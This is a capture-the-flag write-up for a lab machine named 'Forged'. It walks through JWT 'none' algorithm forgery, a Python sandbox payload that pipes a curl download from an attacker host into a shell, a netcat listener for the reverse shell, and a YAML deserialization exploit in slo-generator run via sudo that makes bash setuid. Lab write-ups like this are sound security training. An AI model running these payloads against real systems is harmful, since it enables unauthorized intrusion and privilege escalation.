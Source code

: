 ```yaml
---
title: 'Forged Writeup'
date: '2025-02-15'
tags: ['RCE', 'Linux', 'Hacking Club']
draft: false
summary: 'The application is vulnerable to JWT token forgery, remote code execution (RCE), and privilege escalation via slo-generator.'
images: ['/static/images/forged-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/forged-writeup-images/default.png)

---

## Port Scanning

`nmap -sV -sC -p- -v $IP --open`

![forged](/static/images/forged-writeup-images/image.png)

---

## Enumeration

`http://172.16.8.48`

![forged 1](/static/images/forged-writeup-images/image1.png)

![forged 2](/static/images/forged-writeup-images/image2.png)

After registering, we can see the application has a **New Project** feature. However, we don’t have the privilege to access it.

![forged 3](/static/images/forged-writeup-images/image3.png)

![forged 4](/static/images/forged-writeup-images/image4.png)

Looking at the session cookies, we can see it uses a JWT.

![forged 5](/static/images/forged-writeup-images/image5.png)

https://jwt.io/

![forged 6](/static/images/forged-writeup-images/image6.png)

With this, we can test some JWT-related attacks.

### JWT Hunter

Using the tool Jwt Hunter, we can see the JWT is vulnerable to a **None Attack**.

https://jwthunter.io/

![forged 7](/static/images/forged-writeup-images/image7.png)

After copying the payload and pasting it into the session cookies, we gain access to the feature.

![forged 8](/static/images/forged-writeup-images/image8.png)

---

## Foot Hold

The **New Project** feature is a Python sandbox, and we gain initial access by sending the following payload:

`evil.py`

```python
__import__('os').popen("curl 10.0.31.150/sh | sh").read()
```

![forged 9](/static/images/forged-writeup-images/image9.png)

Note: I used the payload from https://reverse-shell.sh/yourip:1337

```bash
python3 -m http.server 80
```

![forged 10](/static/images/forged-writeup-images/image10.png)

```bash
nc -lnvp 1337
```

![forged 11](/static/images/forged-writeup-images/image11.png)

---

## Privillege Escalation

```bash
sudo -l
```

![forged 12](/static/images/forged-writeup-images/image12.png)

We can run the `slo-generator` binary as root without a password.

After some research, we found there’s a known exploit.

https://www.exploit-db.com/exploits/50385

![forged 13](/static/images/forged-writeup-images/image13.png)

To exploit it, just run the following commands:

```python
echo '!!python/object/apply:os.system ["chmod u+s /bin/bash"]' > exploit.yaml
sudo /usr/local/bin/slo-generator migrate -b exploit.yaml
bash -p
```

![forged 14](/static/images/forged-writeup-images/image14.png)

---

## Proof

![forged 15](/static/images/forged-writeup-images/image15.png)
